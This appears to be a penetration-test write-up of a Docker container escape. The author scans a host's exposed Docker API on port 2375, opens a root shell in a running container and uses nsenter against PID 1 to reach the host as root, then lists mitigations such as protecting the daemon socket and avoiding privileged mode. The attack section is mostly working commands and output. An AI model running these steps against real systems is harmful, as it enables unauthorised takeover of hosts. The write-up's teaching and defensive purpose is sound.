 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 running process, very strange for a container: maybe the container is sharing the same namespace with the host OS? That would imply the container can communicate with the processes on the host.

## Abusing the second misconfiguration: shared host namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.
